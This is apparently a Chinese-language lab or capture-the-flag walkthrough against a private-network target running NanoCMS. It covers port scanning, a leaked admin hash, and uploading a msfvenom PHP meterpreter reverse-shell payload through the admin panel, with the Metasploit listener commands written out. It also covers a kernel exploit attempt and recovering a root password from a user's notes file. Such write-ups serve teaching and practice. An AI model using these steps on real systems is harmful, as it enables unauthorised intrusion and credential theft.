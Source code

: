 
# 0X00 环境
攻击机IP：192.168.1.10<br />目标机IP：192.168.1.21


# 0X02 实战
使用NMAP扫描端口
```
nmap -sV -A -p- 192.168.1.21
```
![](https://img-blog.csdnimg.cn/26cd3e5ea9ec4f8cb757edfed3bb359a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ljzhY&originHeight=818&originWidth=1163&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到开放了很多端口，就不一一列举了，看图。

开放了80-HTTP端口当然是要先看看。<br />![](https://img-blog.csdnimg.cn/bb7b3fcd33e6415ea155f01f68585777.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=fLde2&originHeight=444&originWidth=1260&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在浏览网页的过程中发现网站的Blog模块使用的是NanoCMS<br />![](https://img-blog.csdnimg.cn/6c0016303df644798a465c9a5a49a38c.png#crop=0&crop=0&crop=1&crop=1&id=kvzjq&originHeight=100&originWidth=328&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

Nano CMS是一个基于PHP的内容管理系统 （CMS）。“ Nano CMS是您所能找到的最小的CMS。用户界面和功能非常非常简单和非常容易使用。Nano CMS的核心功能是基于文件并且可以执行根本不使用任何数据库，这使得安装起来超级容易。

经过搜索找到有关Nano CMS的漏洞[点击跳转](https://cxsecurity.com/issue/WLB-2009040041)
![](https://img-blog.csdnimg.cn/bdcb303e37864b828cb43d4bdff34d7f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=k2d4Q&originHeight=465&originWidth=854&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

所以我们可以尝试在`http://192.168.1.21/~andy/` 后面加上 `/data/pagesdata.txt`
```
http://192.168.1.21/~andy/data/pagesdata.txt
```

![](https://img-blog.csdnimg.cn/efd4add29dbd486dbc4bc25daa15729e.png#crop=0&crop=0&crop=1&crop=1&id=AojRq&originHeight=180&originWidth=1086&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

得到`s:8:"username";s:5:"admin";s:8:"password";s:32:"9d2f75377ac0ab991d40c91fd27e52fd"`

经过解密得到密码为：`shannon`<br />![](https://img-blog.csdnimg.cn/0c811d9c597343299ed797142f893463.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=kqJu6&originHeight=395&originWidth=1094&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

而且在网站可以看到登录入口<br />![](https://img-blog.csdnimg.cn/a074cb74b5ea4c44a68d2e4230b6f5fe.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_12,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=rrWdh&originHeight=303&originWidth=428&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

尝试使用账号`admin`，密码`shannon`进行登录<br />![](https://img-blog.csdnimg.cn/438caed203af4a9abc17df46113ccf82.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=rYB57&originHeight=826&originWidth=1343&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

登陆成功。

在浏览后台发现可以新建php语言页面<br />![](https://img-blog.csdnimg.cn/b5dfd94a4e3f4197bbab399764433862.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=YGbTa&originHeight=815&originWidth=1340&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用msfvenom生成php木马，用MSF连接**

使用msfvenom生成PHP木马
```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -f raw
```

![](https://img-blog.csdnimg.cn/f2c1068753c54209a34d212fc98c152a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=xxqvi&originHeight=358&originWidth=1235&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将得到的木马代码复制到网页中并命名为PHP1<br />![](https://img-blog.csdnimg.cn/a2b2cc63ae2544378f48e17d5e6059ed.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=jt6ae&originHeight=501&originWidth=1057&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

创建成功<br />![](https://img-blog.csdnimg.cn/82812d0342b84ac0a2727d645c3f2b9d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=yNSbH&originHeight=294&originWidth=756&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

打开msfconsole启动监听
```
root@kali-xmtx:~/桌面#msfconsole                                           --启动MSF
msf6 > use exploit/multi/handler                                           --选择模块
exploit(multi/handler) > set payload php/meterpreter/reverse_tcp           --设置payload
msf6 exploit(multi/handler) > set lhost 192.168.1.10                       --设置IP
msf6 exploit(multi/handler) > set lport 4444                               --设置端口
msf6 exploit(multi/handler) > run                                          --运行
```

![](https://img-blog.csdnimg.cn/e96377e83b7c4cb7ac6081e6041368ce.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=OFbbZ&originHeight=312&originWidth=911&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在网站的Blog中找到PHP1文件，点击该文件。<br />![](https://img-blog.csdnimg.cn/1e99cac590644c92b3d7462b412b4559.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_16,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=k236o&originHeight=332&originWidth=582&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

返回到msfconsole中可以看见成功连接<br />![](https://img-blog.csdnimg.cn/da8b0124de064adea1fbcffc5c2b67a6.png#crop=0&crop=0&crop=1&crop=1&id=KeefJ&originHeight=196&originWidth=1299&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

进入shell报错<br />![](https://img-blog.csdnimg.cn/c3190d5aa30e4043921d6b13c37a8448.png#crop=0&crop=0&crop=1&crop=1&id=lRqVT&originHeight=117&originWidth=965&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在这里我换了一台本版较老的kali可以成功<br />![](https://img-blog.csdnimg.cn/17dd8be753a74eaea480bc10146a1e5a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=MG5ZU&originHeight=297&originWidth=1048&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看目标机得详细信息<br />![](https://img-blog.csdnimg.cn/3f0be087fc6b4f99ae324d7469b30d10.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=vJfPj&originHeight=212&originWidth=1394&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在Internet上搜索以发现可能适用于Linux内核2.6.23.1-42的特权提升漏洞[点击跳转](https://www.exploit-db.com/exploits/9479)
![](https://img-blog.csdnimg.cn/5279297f443c4a0fa2dc4db5e4a42795.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=pBWcP&originHeight=561&originWidth=1732&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

编译该文件<br />![](https://img-blog.csdnimg.cn/aea06ea2f518467187eed6a48ad8b237.png#crop=0&crop=0&crop=1&crop=1&id=k7vhp&originHeight=154&originWidth=1143&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将编译后得文件上传到靶机中<br />![](https://img-blog.csdnimg.cn/bd10edb31aa24bce998645a06b16d728.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=kVYUH&originHeight=338&originWidth=888&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

赋予执行权限给提权文件然后执行，失败
```
Chmod 777 exploit
```

![](https://img-blog.csdnimg.cn/fa8b5a9a129d4ec4b8d8f661304c8a5e.png#crop=0&crop=0&crop=1&crop=1&id=jxHrb&originHeight=132&originWidth=734&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

进入home目录发现有5个用户<br />![](https://img-blog.csdnimg.cn/0626e3e4b09b4ecdab2b73dc61fc788e.png#crop=0&crop=0&crop=1&crop=1&id=ECsDL&originHeight=151&originWidth=453&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

依次查看，最终在patrick的隐藏目录中发现`.tomboy.log`文件(Tomboy 是一款适用于 Linux、Unix 和 Windows 的桌面笔记应用程序。)
```
cd /patrick
ls -al
```

![](https://img-blog.csdnimg.cn/46f6c88b04d240fc9d5abb740be0b48b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=PFgGX&originHeight=832&originWidth=755&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看 .tomboy.log文件，可以看到用户保存过root的密码
```
cat .tomboy.log
```

![](https://img-blog.csdnimg.cn/d85183a9bd1c4bc89cb0cc574be65807.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=QhUNP&originHeight=273&originWidth=1084&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

进入.tombody文件查看笔记，成功发现root密码<br />![](https://img-blog.csdnimg.cn/1e82207d1ce84aa49fe8b398fa07194f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=cdrTz&originHeight=662&originWidth=1345&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

SSH远程链接<br />![](https://img-blog.csdnimg.cn/de50864dda6f4c97b76bc71f88977f98.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Ci3PC&originHeight=215&originWidth=845&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

